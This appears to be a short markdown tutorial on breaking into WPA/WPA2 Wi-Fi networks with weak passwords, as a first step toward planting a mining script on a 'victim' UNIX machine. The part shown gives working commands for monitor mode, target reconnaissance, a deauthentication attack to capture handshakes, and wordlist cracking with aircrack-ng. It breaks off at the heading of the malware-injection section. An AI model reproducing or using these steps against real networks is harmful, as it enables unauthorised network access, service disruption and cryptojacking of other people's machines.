 # Gaining access to WPA/WPA2 with short/easy password and inject mining script to UNIX victim
Part 1. Gaining access to WIFI:
1. Install kali
2. Buy and hook a NIC (I used alfa awus036neh) that can use monitor mode to VM (assuming your interface name is wlan0)
``` 
ifconfig wlan0 down && iwconfig wlan0 mode monitor && ifconfig wlan0 up
OR
airmon-ng start wlan0
```
3. Sniff the environment for victim WIFI and capture bssid of target WIFI (Assuming target bssid is BSSID channel C)
```
airodump-ng wlan0
```
4. Sniff the MAC address of clients connected to it (Assuming target mac is MAC) 
```
airodump-ng --bssid BSSID --channel C --write output wlan0 
```
5. Get the handshake traffic. WPA/WPA2 is more secure than WEP so need to capture WPA/WPA2 handshake traffic since it contains Message Integrity Code (MIC) sent from client during handshake. To get the handshake traffic, use deauthentication attack to kick a currently connected client offline and capture it’s traffic when it reconnects.
```
aireplay --deauth 0 -a BSSID -c MAC wlan0
```
6.   Crack the password. 
6a. Get a wordlist. Two approaches for this part. (Assuming wordlist file is wl.txt)
   a. Downloaded wordlists from https://github.com/berzerk0/Probable-Wordlists/tree/master/Real-Passwords/WPA-Length 
   b. Generated my custom wordlist. Since when I am attacking my own wifi, I have some information about the password pattern and it makes the process easier. In real world this process is done by social engineering. 

6b. Then compare it with locally generated MIC from password from wordlist to find the correct password. 
```
aircrack-ng output-01.cap -w wl.txt
```
Part 2. Injecting malicious script to victim machine.

